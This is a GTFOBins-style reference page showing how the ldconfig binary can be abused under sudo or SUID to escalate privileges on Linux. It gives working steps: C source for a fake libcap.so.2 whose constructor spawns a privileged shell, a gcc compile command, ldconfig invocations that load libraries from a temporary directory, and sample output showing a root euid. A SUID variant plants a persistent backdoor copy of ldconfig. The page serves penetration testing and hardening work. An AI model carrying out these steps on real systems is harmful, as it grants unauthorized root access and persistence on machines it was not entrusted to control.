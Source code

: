 # GTFOBin: ldconfig

Follows a minimal example of how to use the described technique (details may change across different distributions).

Run the code associated with the technique.

Identify a target SUID executable, for example the `libcap` library of `ping`:

```
$ ldd /bin/ping | grep libcap
      libcap.so.2 => /tmp/tmp.9qfoUyKaGu/libcap.so.2 (0x00007fc7e9797000)

```

Create a fake library that spawns a shell at bootstrap:

```
echo '#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "/bin/sh", "-p", NULL);
}
' >"$TF/lib.c"

```

Compile it with:

```
gcc -fPIC -shared "$TF/lib.c" -o "$TF/libcap.so.2"

```

Run `ldconfig` again as described below then just run `ping` to obtain a root shell:

```
$ ping
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)

```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This allows to override one or more shared libraries. Beware though that it is easy to break target and other binaries.

```
TF=$(mktemp -d)
echo "$TF" > "$TF/conf"
# move malicious libraries in $TF
sudo ldconfig -f "$TF/conf"
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This allows to override one or more shared libraries. Beware though that it is easy to break target and other binaries.

```
sudo install -m =xs $(which ldconfig) .

TF=$(mktemp -d)
echo "$TF" > "$TF/conf"
# move malicious libraries in $TF
./ldconfig -f "$TF/conf"
```